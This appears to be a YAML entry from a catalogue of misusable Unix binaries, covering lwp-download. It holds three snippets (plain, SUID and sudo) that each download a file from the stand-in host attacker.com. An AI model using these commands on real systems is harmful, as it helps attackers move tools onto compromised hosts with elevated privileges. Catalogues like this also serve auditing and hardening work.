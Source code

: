 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  suid:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo lwp-download $URL $LFILE
---
```

